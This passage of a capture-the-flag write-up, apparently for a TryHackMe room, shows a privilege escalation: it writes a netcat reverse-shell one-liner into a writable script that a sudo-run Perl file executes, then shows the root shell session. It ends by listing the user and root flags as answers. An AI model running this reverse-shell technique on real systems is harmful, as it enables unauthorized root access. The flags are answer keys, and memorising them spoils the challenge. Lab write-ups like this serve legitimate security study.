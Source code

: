nc 192.168.0.190 5554 -> send the output of sh to nc on ip 192.168.0.190 on port 5554
This basically means we are getting a reverse shell again.
We just need to replace the ip with out machine ip and use nc on port 5554 on our machine.
We cannot use any text editor so we need to echo and send it to /etc/copy.sh
Also, we can write into copy.sh (use ``` ls -l /etc/copy.sh```)
Terminal1:
```bash
$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.6.214 5554 >/tmp/f" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory

```
Terminal2:
```bash
$ nc -lvnp 5554             
listening on [any] 5554 ...
connect to [10.17.6.214] from (UNKNOWN) [10.10.109.144] 51286
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
# pwd
/home/itguy
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```
#### Answers
```body
What is the user flag?
THM{63e5bce9271952aad1113b6f1ac28a07}

What is the root flag?
THM{6637f41d0177b6f37cb20d775124699f}
```
#perl
#bash 
#sql